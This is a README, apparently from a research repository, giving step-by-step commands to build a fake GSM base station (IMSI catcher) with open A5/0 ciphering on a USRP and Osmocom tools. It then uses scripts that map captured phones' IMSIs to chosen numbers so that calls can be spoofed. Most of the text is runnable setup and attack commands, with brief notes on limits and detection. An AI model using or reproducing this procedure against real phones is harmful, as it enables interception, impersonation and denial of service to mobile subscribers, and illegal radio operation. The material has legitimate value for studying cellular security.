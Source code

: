 # GSM4_IMSICATCHER_HALFMITM_SPOOFING-CALL-WITH-PHYSICAL-MS
* [motorola](https://www.youtube.com/watch?v=ZKa86zAWmQY&pp=ygURZ3NtIHNuaWZmaW5nIDI5YzM%3D) documentation
* [spoofing](https://github.com/godfuzz3r/osmo-nitb-scripts/tree/master)
* [phddays](https://sudonull.com/post/97315-MiTM-Mobile-contest-how-they-broke-mobile-communications-at-PHDays-V-Positive-Technologies-blog)
# Half MITM = Fake BTS only
<p align="center">
  <img width="600" height="400" src="https://github.com/SitrakaResearchAndPOC/GSM_IMSICATCHER_HALFMITM_SPOOFING-SMS-WITH-PHYSICAL-MS/blob/main/2G.jpg">
</p>

# Why it is possible ?
* Fake base station with open ciphering named A5/0, and the  network could be GSM(sms, call), and GPRS, EDGE

# Attack limitations and advantages 
* local attack but could be targeting (to find local victim)
* victim couldn't be reached on the real network (indeed call and sms)
* could be detectable with rooted phone and application like imsi-catcher detector, snoopsnitch because of open network

# Devices  
* USRP
* Two motorolas phone (aka calypso phone on google)

# Pratices
* Install DragonOS 29 or 30 for USRP and debian 9 or 10 for motorola phone
* Create fake bts with open ciphering (A5/0)
* Add one users and modify core network for associating it with number like 8OO or 807 or 808 or 204 or 209 or 121 or 0333300121
* wait for call 


* Solution 1 using USRP
(more stable and no need synchronization of existing BTS so if we jam the existing BTS the half mitm still exists)
```
wget https://raw.githubusercontent.com/SitrakaResearchAndPOC/nitb-script-all/main/osmo-nitb-scripts.zip
```
```
unzip osmo-nitb-scripts.zip
```
```
cd osmo-nitb-scripts
```
Database is at : /var/lib/osmocom/hlr.sqlite3  
Installing all config  
```
bash install_services.sh
```
Running the transceiver
```
osmo-trx-uhd -C /etc/osmocom/osmo-trx-uhd.cfg
```
Running main_uhd_spoof associate with configs/openbsc_spoof.cfg  
ctrl+shift+T  
```
cd osmo-nitb-scripts
```
```
python3 main_uhd_spoof.py
```
ctrl+shift+T
```
cd osmo-nitb-scripts/scripts_spoof1
```
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Search GSM network (on your phone), associate with PLMN MCC 001 && MNC 01  
Tape `*#001#` for finding your phone number (extension with osmo-bts)   
```
bash finding_imsi_extenstion.sh
```
You could find imsi and extension  
let's see for example imsi as 646040222463674 and extension as 126
```
bash set_imsi_extension.sh 646040222463674 808
```
Verify by if the association is correct
let's see for example imsi as 646040222463674 and extension as 808
```
bash finding_imsi_extenstion.sh
```
* solution 2 : Not stable for dragonOS, should install [karly](https://www.youtube.com/watch?v=_nGVeG_76W8&pp=ygUJa2FybHkgZ3Nt)  
For all [karly_installation](https://github.com/SitrakaResearchAndPOC/CalypsoBTS_Debian)  
Use scripts : finding_imsi_extenstion.sh and set_imsi_extension.sh for associating the imsi with extension 808  
Modify the path of database as hlr.sqlite3     
Pratices  (bonification):  
Installing docker on dragonOS where the OS is debian 9 or 10  
Installing all checkout like [karly_installation](https://github.com/SitrakaResearchAndPOC/CalypsoBTS_Debian)  
Use scripts : finding_imsi_extenstion.sh and set_imsi_extension.sh for associating the imsi with extension 808    
Modify the path of database as hlr.sqlite3     
Create a github to just install CALL_SPOOFING on docker with dragonOS 29 oir 30 with the two scripts and test it directly  


 



